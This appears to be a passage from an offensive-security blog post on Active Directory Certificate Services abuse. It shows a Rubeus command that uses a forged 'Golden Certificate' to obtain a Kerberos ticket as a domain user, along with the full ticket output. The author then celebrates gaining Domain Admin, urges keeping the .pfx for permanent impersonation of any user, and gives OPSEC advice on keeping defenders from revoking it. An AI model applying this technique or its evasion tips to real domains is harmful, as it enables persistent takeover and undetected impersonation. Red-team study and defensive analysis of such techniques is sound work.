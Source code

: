 Now, let's use **Rubeus** to request a TGT and impersonate the Domain Admin.

```powershell
.\Rubeus.exe asktgt /user:paulo.victor /domain:corp.local /dc:corp-dc.corp.local /certificate:"C:\Tools\paulo-da.pfx" /password:"Senha" /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.1

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: DC=LOCAL, DC=CORP, OU=Tier0, OU=Usuarios, CN=paulo.victor
[*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\paulo.victor'
[*] Using domain controller: 10.0.0.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGVjCCBlKgAwIBBaEDAgEWooIFbTCCBWlhg...

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/corp.local
  ServiceRealm             :  CORP.LOCAL
  UserName                 :  paulo.victor
  UserRealm                :  CORP.LOCAL
  StartTime                :  1/11/2025 2:37:29 AM
  EndTime                  :  1/11/2025 12:37:29 PM
  RenewTill                :  1/18/2025 2:37:29 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  c5brmZK4ioq20251NDOs8w==
  ASREP (key)              :  667FB15683B166E0330E8D3DFE38620E
```

Done, now we are Domain Admin of the environment!!! Just make sure to keep that **.pfx** with you forever, and you will always be able to issue a certificate in the name of any user and impersonate them in the environment.

- <span style="color: red;">OPSEC NOTES</span>: When generating certificates with Certipy/fy, they will be saved in the "**Issued Certificates**" section in **certsrv** within the CA, which gives defenders the possibility of revoking your certificate, which is a problem. However, by using the **Golden Certificate**, you will be generating certificates locally, and they won't be saved in **certsrv**, making it MUCH harder for defenders to revoke your certificate 🔥🧑‍🚒.
- I took the screenshot below after following the steps above, and as we can see, the certificate I issued is not visible within the CA.
